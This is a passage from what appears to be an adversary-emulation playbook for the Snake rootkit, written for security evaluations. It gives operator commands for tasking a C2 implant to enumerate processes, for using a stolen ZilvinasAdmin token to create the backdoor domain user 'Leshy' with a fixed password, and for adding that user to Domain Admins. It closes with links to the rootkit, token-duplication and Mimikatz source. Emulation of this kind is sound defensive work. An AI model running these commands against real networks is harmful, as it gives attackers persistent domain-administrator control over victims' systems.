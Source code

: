 * Spend a couple minutes reading through any unread emails to wait for the implant to start beaconing back to the C2 server.

:arrow_right: Return to the Kali C2 terminal window and verify that a new implant session is beaconing back to the C2 server. 

* From the lower terminal window, task Snake to enumerate running processes on the machine to discover processes under `ZilvinasAdmin`.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 3, "proc": "tasklist.exe", "args": "/v"}'
```
* :heavy_exclamation_mark: Verify that we find processes running under `ZilvinasAdmin`

```bash
grep 'NK\\ZilvinasAdmin' logs.txt -i 
```

> This should return output similar to the following:
>
>```
>powershell.exe                8152 RDP-Tcp#2                  3     83,280 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
>conhost.exe                    312 RDP-Tcp#2                  3     17,356 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
>```


* Wait 1 minute, then instruct Snake to create a new domain user `Leshy` using an access token from one of the `ZilvinasAdmin` processes. `Leshy` will be used as a backdoor domain admin account for persistence on the domain.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net user leshy Password12345 /add /domain", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute, then instruct Snake to add `Leshy` to the `Domain Admins` group.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net group \"Domain Admins\" leshy /add /domain", "runas": "nk\\zilvinasadmin"}'
```

### :moyai: Source Code

* [Snake Installer](../../Resources/Snake/SnakeInstaller/README.md)
  * [Privilege Escalation](../../Resources/Snake/SnakeInstaller/src/privesc/privesc.cpp#L179)
  * [Disable DSE and Load Rootkit](../../Resources/Snake/SnakeInstaller/src/main.cpp#L63)
  * [Start Snake Rootkit Driver](../../Resources/Snake/SnakeInstaller/src/driver/driver.cpp#L111)
* [Snake Rootkit](../../Resources/Snake/README.md)
  * [Driver](../../Resources/Snake/SnakeDriver/SnakeDriver/driver.c#L76)
  * [Function Hooking](../../Resources/Snake/SnakeDriver/SnakeDriver/hooks.c#L31)
    * [Infinity Hook](../../Resources/Snake/SnakeDriver/libinfinityhook/README.md)
  * [Drop DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/filesystem.cpp#L22)
  * [Trigger injection on network request](../../Resources/Snake/SnakeDriver/SnakeDriver/wfp.cpp#L276)
  * [Inject Usermodule DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/inject.cpp#L30)
* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [C2 communications over HTTP](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task execution for generic process](../../Resources/Snake/UserModule/src/execute.cpp#L406)
  * [Task execution via cmd with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L337)
  * [Token duplication](../../Resources/Snake/UserModule/src/execute_token.cpp#L284)
  * [Payload download](../../Resources/Snake/UserModule/src/comms_http.cpp#L604)
  * [File Upload](../../Resources/Snake/UserModule/src/comms_http.cpp#L359)
* [Mimikatz](../../Resources/Mimikatz)
